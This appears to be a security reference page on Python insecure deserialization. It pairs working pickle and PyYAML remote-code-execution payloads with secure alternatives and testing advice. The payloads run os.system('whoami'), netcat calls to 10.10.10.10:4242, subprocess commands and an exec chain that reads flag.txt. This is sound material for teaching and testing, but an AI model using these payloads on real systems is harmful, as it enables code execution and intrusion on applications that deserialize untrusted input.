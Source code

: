 # Python Deserialization

> Python deserialization is the process of reconstructing Python objects from serialized data, commonly done using formats like JSON, pickle, or YAML. The pickle module is a frequently used tool for this in Python, as it can serialize and deserialize complex Python objects, including custom classes.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Pickle](#pickle)
    * [PyYAML](#pyyaml)
* [References](#references)
* [Common Pitfalls](#common-pitfalls)
* [Testing for Insecure Deserialization](#testing-for-insecure-deserialization)


## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) - Serialized payload for deserialization RCE attack on python driven applications where pickle,PyYAML, ruamel.yaml or jsonpickle module is used for deserialization of serialized data.
* [Bandit](https://github.com/PyCQA/bandit) - A tool designed to find common security issues in Python code, including insecure deserialization.
* [PyYAML](https://pyyaml.org/wiki/PyYAMLDocumentation) - A YAML parser and emitter for Python.
* [jsonpickle](https://jsonpickle.github.io/) - A library for serializing and deserializing complex Python objects to and from JSON.


## Methodology

In Python source code, look for these sinks:

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`


### Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input. 

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

#### Secure Alternative

To avoid using `pickle` for untrusted data, consider using `json` for serialization and deserialization, as it is safer and more secure.

```python
import json
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(json.dumps(h.__dict__).encode())
print("Your Auth Token : {}").format(auth_token)

new_token = input("New Auth Token : ")
token = json.loads(b64decode(new_token).decode())
print("Welcome {}".format(token['username']))
```


### PyYAML

YAML deserialization is the process of converting YAML-formatted data back into objects in programming languages like Python, Ruby, or Java. YAML (YAML Ain't Markup Language) is popular for configuration files and data serialization because it is human-readable and supports complex data structures.

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for `load` has been switched to SafeLoader mitigating the risks against Remote Code Execution. [PR #420 - Fix](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now `yaml.unsafe_load` and `yaml.load(input, Loader=yaml.UnsafeLoader)`.

```py
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

#### Secure Alternative

To avoid using `unsafe_load`, always use `safe_load` when working with untrusted YAML data.

```py
import yaml

with open('safe_data.yml') as file:
    data = yaml.safe_load(file)
```


## Common Pitfalls

1. **Using `pickle` with untrusted data**: The `pickle` module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.
2. **Using `yaml.load` without specifying a safe loader**: Always use `yaml.safe_load` when working with untrusted YAML data to avoid remote code execution vulnerabilities.
3. **Ignoring security warnings**: Always pay attention to security warnings and best practices when working with serialization and deserialization in Python.


## Testing for Insecure Deserialization

1. **Manual Testing**:
    - Review the codebase for the use of insecure deserialization functions such as `pickle.loads`, `yaml.load`, and `jsonpickle.decode`.
    - Identify the sources of input data and ensure they are properly validated and sanitized before deserialization.

2. **Automated Testing**:
    - Use static analysis tools like [Bandit](https://github.com/PyCQA/bandit) to scan the codebase for insecure deserialization functions and patterns.
    - Implement unit tests to verify that deserialization functions are not used with untrusted data and that proper input validation is in place.


## References

- [CVE-2019-20477 - 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - Manmeet Singh (@_j0lt) - June 21, 2020](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
- [Exploiting misuse of Python's "pickle" - Nelson Elhage - March 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
- [Python Yaml Deserialization - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
- [PyYAML Documentation - PyYAML - April 29, 2006](https://pyyaml.org/wiki/PyYAMLDocumentation)
- [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13, 2021](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
